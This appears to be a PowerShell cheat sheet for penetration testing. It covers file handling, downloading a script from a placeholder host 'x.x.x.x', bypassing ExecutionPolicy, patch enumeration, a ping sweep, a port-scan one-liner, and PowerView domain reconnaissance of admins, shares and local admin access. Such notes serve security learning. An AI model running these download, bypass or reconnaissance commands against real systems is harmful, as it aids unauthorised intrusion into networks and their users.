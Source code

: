 # __Manipulating files__

## __Start-Process__

```powershell
Start-Process notepad.exe # start a process
```

## __Get-Process__

```powershell
Get-Process # list all running processes
Get-Process -Name notepad # filter for a specific process name
```
Especially with command outputs that may be difficult to read or need further processing appending the `Export-Csv` command will create a CSV file with the output of the first command.

```powershell
Get-Process | Export-Csv file.csv
```

## __Get-Content__

```powershell
Get-Content .\file.txt # similar to cat or type
```

## __Copy-Item__

Files can be copied and moved with `Copy-Item` and `Move-Item`, respectively.

```powershell
Copy-Item .\file.txt copy_file.txt
```

## __Get-FileHash__

```powershell
Get-FileHash -Algorithm SHA256 .\file.txt
Get-FileHash -Algorithm MD5 .\file.txt
```

# __Downloading files__

```powershell
(New-Object System.Net.WebClient).Downloadfile('http://x.x.x.x/file.ps1', 'file.ps1')
```

```powershell
Invoke-WebRequest "http://x.x.x.x/file.ps1" -OutFile "file2.ps1"
```

`ExecutionPolicy` is NOT a security feature. It merely functions as an added safety measure and can be bypassed by the user.

The current state of the ExecutionPolicy configuration can be seen using `Get-ExecutionPolicy -list`.

## __Bypass execution policy__

```powershell
powershell -ExecutionPolicy Bypass -File .\file.ps1
Set-ExecutionPolicy Bypass -Scope Process
```

The `-scope` parameter will set the execution policy only for the current PowerShell session and will go back to the initial settings once the PowerShell session is closed.

# __System Reconnaissance__

## __Finding Missing Patches__

```powershell
Get-Hotfix # enumerate installed patches
```

To make things easier, we could output the result of the Get-Hotfix command in a list format and grep it further using the `findstr` command. The example below shows how the installation date of patches could be listed to have a better idea about update cycles on the target.

```powershell
Get-Hotfix | Format-list | findstr InstalledOn
```

```powershell
Get-Hotfix | Format-Table HotFixID # list only HotFixID column
```

```powershell
dir | Format-List # can also be used to gather more information about objects
dir | Format-List *
```

```powershell
Get-Hotfix | Out-File hotfix.txt # save the output
```

```powershell
Get-Command -Name Out*
```

The `GridView` option provides a nice GUI with sortable columns for any output that can be overwhelming on the CLI.

```powershell
Get-Process | Out-GridView
```

# __Network Reconnaissance__

We will ping the IP addresses from 10.0.2.1 to 10.0.2.15.

```powershell
1..15 | %{echo "10.0.2.$_"; ping -n 1 10.0.2.$_ | Select-String ttl}
```

A similar command can be built using the existing socket and TCP client functions. In the example below, we scan the first 1024 TCP ports of the target. 

```powershell
1..1024 | %{echo ((New-Object Net.Sockets.TcpClient).Connect("10.0.2.8", $_)) "Open port on - $_"} 2>$null
```

# __Using PowerView__

## __Get-NetDomainController__

```powershell
Get-NetDomainController # Information on the domain controller
```

## __Get-NetUser__

```powershell
Get-NetUser # list of domain users
Get-NetUser | out-gridview
(Get-NetUser).name # list only the users' name
Get-NetUser | select -ExpandProperty lastlogon  # list users' last logon
```

## __Get-NetComputer__

```powershell
Get-NetComputer # enumerate systems connected to the domain
Get-NetComputer -ping # enumerate de systems that are currently online
```

## __Get-NetGroup__

```powershell
Get-NetGroup # enumerate existing groups
Get-NetGroupMember "Domain Admins" # enumerate members of the group
```

 ## __Finding shares__

 ```powershell
Find-DomainShare # list available shares
Find-DomainShare -CheckShareAccess # list only readable shares
 ```

## __Enumerate Group Policy__

Group Policy is used to configure computers connected to the domain.

```powershell
Get-NetGPO # gather information on enforced policies
```

## __Get-NetDomainTrust__

```powershell
Get-NetDomainTrust # list any domain you may access
```

## __User Enumeration__

```powershell
Find-LocalAdminAccess # list systems in the domain you may access as a local administrator
```

